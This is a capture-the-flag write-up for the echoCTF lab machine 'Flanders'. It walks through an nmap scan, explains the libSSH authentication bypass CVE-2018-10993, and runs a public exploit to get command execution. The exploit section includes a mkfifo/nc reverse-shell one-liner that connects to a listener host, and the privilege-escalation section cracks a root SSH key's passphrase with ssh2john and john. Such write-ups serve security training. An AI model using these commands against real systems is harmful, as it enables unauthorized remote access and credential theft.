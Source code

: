 ```yaml
---
layout: page
title: Flanders
---
```




[Flanders](https://echoctf.red/target/13)

![](assets/img/flanders.png)

machine description:

Flanders simple and kind, always ready to to give a helping hand. His favorite catch phrase is Okily Dokily

Catch phrase sounds like a pass phrase, only without space

---

### Enumartion


```
nmap -sC -sV -p- 10.0.40.0

Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-10 20:10 EST
Nmap scan report for 10.0.100.34
Host is up (0.12s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION

6022/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
ssh-hostkey: 
2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)

```

### vulnerability

CVE-2018-10993 libSSH authentication bypass exploit

The libSSH library has flawed authentication/connection state-machine.
Upon receiving from connecting client the MSG_USERAUTH_SUCCESS Message
(as described in RFC4252, sec. 5.1.) which is an authentication response message
that should be returned by the server itself (not accepted from client)
the libSSH switches to successful post-authentication state. In such state,
it impersonates connecting client as server's root user and begins executing
delivered commands. 
This results in opening an authenticated remote-access channel
without any authentication attempts (authentication bypass).


### Exploit 

from hint i understood it server side include.

[CVE-2018-10993](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)


```

python3 cve-2018-10993.py  10.0.100.34  -p 6022 -c 'whoami' 

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1
    
ETSCTF
Socket exception: Bad file descriptor (9)


next i opend revershell 

python3 cve-2018-10993.py  10.0.40.0 -p 6022 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 4444 >/tmp/f'

$ whoami
ETSCTF
$ 




```

we logged in as user  ETSCTF




### Privilege escalation


```


ls -la
total 20
drwxr-xr-x 1 ETSCTF root     4096 May 18 07:11 .
drwxr-xr-x 1 ETSCTF www-data 4096 Nov 11  2019 ..
-rw-r--r-- 1 ETSCTF www-data  222 May 18 07:11 known_hosts
-rw------- 1 ETSCTF root     1766 Nov 11  2019 mykey
-rw------- 1 ETSCTF root      399 Nov 11  2019 mykey.pub

```

mykey is owned by root. 


next we can see thet machine is listen - 127.0.0.1:22 --- ssh port 
```


ssh -p 22 -i ~/.ssh/mykey root@127.0.0.1

and i got password for this key :(

there two options to solve this:

1. enumration  -- found the pass from clues in machine description (OkilyDokily)
2. ssh2john 


using ssh2john

python ~/tools/ssh2john.py key > new_key 

and then brutfouce the new_key

$ john new_key

```

